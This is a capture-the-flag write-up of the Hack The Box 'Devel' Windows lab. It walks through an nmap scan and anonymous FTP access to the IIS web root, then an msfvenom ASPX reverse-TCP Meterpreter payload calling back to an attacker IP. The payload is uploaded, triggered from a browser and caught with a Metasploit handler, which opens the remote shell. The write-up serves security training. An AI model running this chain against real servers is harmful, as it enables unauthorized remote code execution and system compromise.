








<div align="left">


</div>

# Hack The Box: Devel

<div align="left">

<br>
<br>


</div>

---

# 📌 Overview

Devel is a Windows web server lab that demonstrates a classic real‑world failure chain:

* **Anonymous FTP access** exposes the web root
* Uploading a web shell/payload leads to **remote code execution**
* The initial shell runs under a low-privileged IIS identity

This lab builds disciplined service chaining: **Recon → FTP → Web RCE → Shell management**.

---

## 🛠 Tools Used

```
nmap        → service discovery
ftp         → anonymous login + file upload
msfvenom    → generate ASPX payload
msfconsole  → multi/handler + session management
browser     → trigger uploaded payload
```

---

## <h1 style="color:pink;">Walkthrough steps</h1>

---

### Step 1  Recon (Nmap)

**Goal:** Identify exposed services and confirm attack surface.

```bash
nmap -sC -sV -T5 10.129.4.55 -oN nmap_result
```

**What to observe:**

* FTP service exposed
* IIS HTTP service exposed
* Any notes about anonymous FTP



---

### Step 2 Anonymous FTP Login

**Goal:** Validate whether FTP allows anonymous access.

```bash
ftp 10.129.4.55
# Name: anonymous
# Password: anonymous (or blank)
```

**What to observe:**

* Successful anonymous login
* Visible web directory/files



---

### Step 3 Confirm Writable Location

**Goal:** Identify if we can upload into web root.

```text
ftp> ls
ftp> dir
```

**What to observe:**

* Web root files such as `iisstart.htm` / `welcome.png`
* A directory like `aspnet_client`


---

### Step 4 Generate an ASPX Payload

**Goal:** Create an ASPX payload that will connect back to our listener.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.197 LPORT=1234 -f aspx > devel.aspx
```

**What to observe:**

* Payload created successfully
* File size/output confirmation



---

### Step 5 Upload Payload via FTP

**Goal:** Upload the ASPX file into the web root.

```text
ftp> put devel.aspx
ftp> ls
```

**What to observe:**

* Upload completes
* `devel.aspx` appears in listing



---

### Step 6 Start Metasploit Handler

**Goal:** Start a listener to catch the reverse connection.

```text
msfconsole
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.15.197
set LPORT 1234
run -j
```

**What to observe:**

* Handler running and waiting



---

### Step 7 Trigger Payload via Browser

**Goal:** Execute the uploaded ASPX by visiting it.

```text
http://10.129.4.55/devel.aspx
```

**What to observe:**

* Web request triggers connection
* Meterpreter session opens



---

### Step 8  Interact with Session and Confirm Context

**Goal:** Interact with the session and identify current privileges.

```text
sessions -i <id>
getuid
```

**What to observe:**

* User context typically: `IIS APPPOOL\Web`



---

## 🧠 What This Lab Teaches

* Why **anonymous FTP** is a critical enterprise risk
* How service chaining works: FTP write → web execution
* Basic payload handling and session control
* The importance of validating execution context after initial access

---

## 📌 Conclusion

Devel reinforces a simple but brutal lesson:

> If an attacker can write to the web root, they can usually execute code.

This machine is a strong foundation for internal methodology: enumerate exposed services, validate permissions, chain misconfigurations, and control shells cleanly.

---

This work is part of **FuzzRaiders**’ structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor and real-world security execution

Happy hacking 🚀

---

### Author
## [LinkedIn:](https://www.linkedin.com/in/manka-sec/)
---
